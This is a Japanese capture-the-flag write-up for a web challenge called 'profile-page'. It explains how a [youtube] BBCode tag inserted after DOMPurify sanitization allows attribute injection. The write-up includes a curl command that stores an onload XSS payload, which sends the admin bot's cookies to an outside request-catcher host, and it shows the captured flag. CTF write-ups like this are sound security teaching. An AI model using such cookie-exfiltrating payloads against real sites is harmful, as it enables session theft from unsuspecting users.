

# profile-page:web:114pts
customize your osu! profile page!  
[https://profile-page.web.osugaming.lol/](https://profile-page.web.osugaming.lol/)  
[https://adminbot.web.osugaming.lol/profile-page](https://adminbot.web.osugaming.lol/profile-page)  

[profile-page.zip](profile-page.zip)  

# Solution
サイトとAdminBotが与えられる。  
XSS問題のようだ。  
サイトにアクセスし、ユーザ登録を行いログインするとプロフィールを設定できるようだ。  
  
ソースの主要部分は以下のようであった。  
```js
~~~
const window = new JSDOM('').window;
const purify = DOMPurify(window);
const renderBBCode = (data) => {
    data = data.replaceAll(/\[b\](.+?)\[\/b\]/g, '<strong>$1</strong>');
    data = data.replaceAll(/\[i\](.+?)\[\/i\]/g, '<i>$1</i>');
    data = data.replaceAll(/\[u\](.+?)\[\/u\]/g, '<u>$1</u>');
    data = data.replaceAll(/\[strike\](.+?)\[\/strike\]/g, '<strike>$1</strike>');
    data = data.replaceAll(/\[color=#([0-9a-f]{6})\](.+?)\[\/color\]/g, '<span style="color: #$1">$2</span>');
    data = data.replaceAll(/\[size=(\d+)\](.+?)\[\/size\]/g, '<span style="font-size: $1px">$2</span>');
    data = data.replaceAll(/\[url=(.+?)\](.+?)\[\/url\]/g, '<a href="$1">$2</a>');
    data = data.replaceAll(/\[img\](.+?)\[\/img\]/g, '');
    return data;
};
const renderBio = (data) => {
    const html = renderBBCode(data);
    const sanitized = purify.sanitize(html);
    // do this after sanitization because otherwise iframe will be removed
    return sanitized.replaceAll(
        /\[youtube\](.+?)\[\/youtube\]/g,
        '<iframe sandbox="allow-scripts" width="640px" height="480px" src="https://www.youtube.com/embed/$1" frameborder="0" allowfullscreen></iframe>'
    );
};

~~~

// TODO: update bio from UI
app.post("/api/update", requiresLogin, (req, res) => {
    const { bio } = req.body;

    if (!bio || typeof bio !== "string") {
        return res.end("missing bio");
    }

    if (!req.headers.csrf) {
        return res.end("missing csrf token");
    }

    if (req.headers.csrf !== req.cookies.csrf) {
        return res.end("invalid csrf token");
    }

    if (bio.length > 2048) {
        return res.end("bio too long");
    }

    req.user.bio = renderBio(bio);
    res.send(`Bio updated!`);
});
~~~
```
`/api/update`でbioを更新できるようだ。  
`[img]URL[/img]`のようなタグも利用でき、``に置換される。  
ただし、DOMPurifyで危険なタグを排除しているためonerror芸などは難しい。  
ここで、`[youtube]ID[/youtube]`タグがDOMPurifyのサニタイズ後に置換されていることに気づく。  
IDの箇所は検証されておらずそのまま置換されるため、`" onload=`などとやれば、JavaScriptが実行できそうだ。  
AdminBotのソースであるadminbot_test.jsをみると、cookieにフラグがあることがわかる。  
以下のようにbioを更新する(csrfのトークンなどに注意)。  
```bash
$ curl -X POST 'https://profile-page.web.osugaming.lol/api/update' -H 'Cookie: connect.sid=s%3AnN19WVkNYEw83yS_CDqoTiZJmV8bkIwn.5ebU%2FW3T5KF4RcEJoiL48g8Ip7g2%2BPbdk1MxA8SarPI' -H 'Cookie: csrf=1b1543696a66ce57ca524f183b753982a26960713d6bc738a995dd22498c63a4' -H 'csrf: 1b1543696a66ce57ca524f183b753982a26960713d6bc738a995dd22498c63a4' -d 'bio=[youtube]" onload="location.href=%27https://enhwn20a9uv6.x.pipedream.net/?s=%27%2Bdocument.cookie[/youtube]"'
Bio updated!
```
次にXSSペイロードが設定された`https://profile-page.web.osugaming.lol/profile/satoki00`をAdminBotへ送信してやる。  
すると以下のようなリクエストが届く。  
```
GET
/?s=flag=osu{but_all_i_w4nted_to_do_was_w4tch_y0utube...}
```
flagが得られた。  

## osu{but_all_i_w4nted_to_do_was_w4tch_y0utube...}